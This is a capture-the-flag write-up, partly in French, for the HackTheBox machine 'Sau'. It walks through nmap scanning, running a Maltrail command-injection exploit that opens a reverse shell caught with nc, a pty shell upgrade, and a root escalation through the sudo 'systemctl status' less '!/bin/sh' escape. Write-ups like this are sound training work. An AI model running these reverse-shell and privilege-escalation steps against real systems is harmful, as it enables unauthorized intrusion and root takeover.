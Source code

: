 ```yaml
---
title: HTB | Sau
description: Sau is an Easy Difficulty Linux machine that features a  Request Baskets instance that is vulnerable to Server-Side Request Forgery (SSRF) via CVE-2023-27163. Leveraging the vulnerability we are to gain access to a Maltrail instance that is vulnerable to Unauthenticated OS Command Injection, which allows us to gain a reverse shell on the machine as puma. A sudo misconfiguration is then exploited to gain a root shell.
slug: sau-htb
date: 2023-12-28 00:00:00+0000
#image: cover.png
categories:
 - HackTheBox
tags:
 - Linux
 - Easy
#weight: 1
---
```


<table style="border:none; width:100%;">
  <tr>
    <!-- Colonne gauche : logo -->
    <td style="border:none; text-align:center; vertical-align:middle; width:150px;">
      <img src="cover.png" alt="Sau cover" width="120">
    </td>
    <td style="border:none; text-align:center; vertical-align:middle;">
      <table style="margin:auto; border-collapse:collapse; border:1px solid #ddd;">
        <thead>
          <tr>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Machine name</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">OS</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">IP</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Difficulty</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Sau</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Linux</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">10.10.11.224</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Easy</td>
          </tr>
        </tbody>
      </table>
    </td>
  </tr>
</table>

## Enumeration

### nmap
```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -sC 10.10.11.224 -A -n
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Wed, 27 Dec 2023 23:03:42 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Wed, 27 Dec 2023 23:03:16 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Wed, 27 Dec 2023 23:03:16 GMT
|_    Content-Length: 0
```

## Foothold

### Exploitation request-baskets
```bash
I found a CVE online and I exploit it
```

### Exploitation Maltrail
```bash
┌──(kali㉿kali)-[~/HTB/Sau/maltrail-exploit/Maltrail-v0.53-Exploit]
└─$ python3 exploit.py 10.10.14.160 55555 http://10.10.11.224:55555/pleffy
Running exploit on http://10.10.11.224:55555/pleffy/login
```

### Reverse Shell
Open reverse shell. Listening with nc at the same time we launch the exploit.py
```bash
┌──(kali㉿kali)-[~]
└─$ sudo nc -lvp 55555                  
[sudo] Mot de passe de kali : 
listening on [any] 55555 ...
10.10.11.224: inverse host lookup failed: Unknown host
connect to [10.10.14.160] from (UNKNOWN) [10.10.11.224] 50528
$ ls
ls
CHANGELOG     core    maltrail-sensor.service  plugins           thirdparty
CITATION.cff  docker  maltrail-server.service  requirements.txt  trails
LICENSE       h       maltrail.conf            sensor.py
README.md     html    misc                     server.py
$ whoami
whoami
puma
```

### Open python bash
```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
puma@sau:~$ whoami 
whoami
puma
```

### User flag
```bash
puma@sau:~$ ls  
ls
linpeas.sh  systemctl  u  user.txt
puma@sau:~$ cat user*   
cat user*
d302.....b9f0
```

## Privilege Escalation

### Enumeration
```bash
$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
On peut voir qu'il peut executer cette commande en tant qu'administrateur :
```bash
sudo /usr/bin/systemctl status trail.service
```

### systemctl status trail.service
Lorsqu'on l'execute, on observe que la commande utilise `less`. Or, si less est executé en tant qu'administrateur, on peut lancer un shell en tant que root. J'ai pu trouver cette information en cherchant sur ce site :

https://gtfobins.github.io/gtfobins/less/

Par exemple, on peut écrire: **!/bin/sh**  
Lorsque less est executé en tant qu'admin, ça doit lancer un shell en tant que root

### Exploit : less
```bash
$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!/bin/sh 
!//bbiinn//sshh!/bin/sh
# whoami
whoami
root
# cd /root 
cd /root
# ls
ls
go  root.txt
# cat roo*
cat roo*
047d.....6de3
```
